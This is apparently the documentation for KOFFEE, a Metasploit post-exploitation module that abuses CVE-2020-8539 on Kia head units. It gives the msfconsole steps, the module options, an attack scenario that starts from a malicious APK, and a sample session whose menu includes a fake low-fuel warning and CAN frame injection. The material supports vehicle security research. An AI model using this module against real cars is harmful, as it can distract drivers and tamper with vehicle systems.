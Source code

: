 ## Vulnerable Application

KOFFEE exploits the CVE-2020-8539, which is an Arbitrary Code Execution vulnerabilty that allows a user
to execute the micomd binary with valid payloads on Kia Motors Head Units.
By using KOFFEE an attacker can send crafted micomd commands to control the head unit and send CAN bus frames
into the Multimedia CAN (M-Can) of the vehicle.

### Vulnerable Head Unit software versions
- SOP.003.30.180703
- SOP.005.7.181019
- SOP.007.1.191209

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use post/android/local/koffee`
- [ ] `set session 1`
- [ ] `run`

### What do you need
* An active session with the Head Unit

## Options
- MICOMD: it contains the path to micomd executable
- NUM_MSG: it expresses the number of MICOM commands sent each time
- PERIOD: it indicates the time (ms) interval between two MICOM commands, aka Period of CAN frames
- SESSION: it referes to the metasploit session number on which this module is run.

## Scenarios
KOFFEE can be run as post-exploitation module when an active session is available with the Head Unit (HU).
First, an attacker may create a malicious apk to generate a remote connection with the HU.
For instace, using msfvenom or other tools, an attacker can create the malicious apk that, once installed in the HU,
starts an active session. Now, the attacker is able to use the KOFFEE exploit to take control of the HU and
inject CAN bus frames into the M-CAN bus of the vehicle.


### Usage

```bach
msf6 > use post/android/local/koffee
msf6 post(android/local/koffee) > set session 1
session => 1
msf6 post(android/local/koffee) > run

[*]  
[*]            `:+ydmNMMNmhs:
         .odMMMMMMMMMMMMMMm`
       /dM MMMMMMM MMMMMMM: o`
     /mMMM MMMMMM MMMMMMm-`yMs
   .dMMMMM MMMMM MMMMMm+ :mMMN
  :NMMMMMM MMMM MMMMh/ :hMMMMN
 /MMMMMMMM MMM Mmy/`.omMMMMMMy
.NMMMMMMMM my+:`./smMMMMMMMMN.
yMMMMMMNy/ `/shNMMMMMMMMMMMM/
NMMMMd/`-s MM MMMMMMMMMMMMN:
NMMd- +mMM MMM MMMMMMMMMMd.
sMo :mMMMM MMMM MMMMMMMm/
`/ oMMMMMM MMMMM MMMMd/
  .NMMMMMM MMMMMM do.
    :shmNMMNmdy+:`        
[*]  
[*]  -- Welcome, would you like a KOFFEE? --
[*]  
[*] Make your choice:
     1. Mute/unmute radio
     2. Reduce radio volume
     3. Radio volume at maximum
     4. Low screen brightness
     5. High screen brightness
     6. Low fuel warning message
     7. Navigation full screen
     8. Set navigation address
     9. Seek down
     10. Seek Up
     11. Switch off Infotainment
     12. Switch On Infotainment
     13. Camera Reverse On
     14. Camera Reverse Off
     15. Inject pre-crafted CAN frames into MM bus
     16. Inject custom command
     0. Exit
Koffee > 1
[*]  -- Sending Command -- 
...
Koffee > 0
[*] Post module execution completed
```
